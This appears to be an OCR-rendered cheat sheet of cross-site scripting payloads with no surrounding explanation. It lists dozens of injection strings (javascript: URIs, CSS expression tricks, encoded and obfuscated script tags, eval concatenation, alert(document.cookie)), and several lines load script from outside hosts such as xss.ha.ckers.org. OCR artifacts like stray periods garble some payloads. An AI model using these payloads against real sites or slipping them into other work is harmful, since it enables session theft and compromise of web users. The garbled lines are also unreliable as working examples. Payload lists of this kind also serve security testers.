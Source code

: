 <META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">

<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>

<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>

<TABLE BACKGROUND="javascript.:alert('XSS')">

<DIV STYLE="background-image: url(javascript.:alert('XSS'))">

<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html&#39;);">

<DIV STYLE="width: expression(alert('XSS'));">

<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

<IMG STYLE='xss:expre\ssion(alert("XSS"))'>

<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>

<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>

<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>

<BASE HREF="javascript.:alert('XSS');//">

getURL("javascript.:alert('XSS')")

a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);

<XML SRC="javascript.:alert('XSS');">

"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"

<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>

<IMG SRC="javascript.:alert('XSS')"

<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```
'"()&%<acx><ScRiPt >prompt(915149)</ScRiPt>
 
<svg οnlοad=alert(1)>
 
<script>alert(document.cookie)</script>
 
'><script>alert(document.cookie)</script>
 
='><script>alert(document.cookie)</script>
 
<script>alert(vulnerable)</script>
 
%3Cscript%3Ealert('XSS')%3C/script%3E
 
<script>alert('XSS')</script>
 
<img src="javascript:alert('XSS')">
 
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
 
%22%3cscript%3ealert(%22xss%22)%3c/script%3e
 
```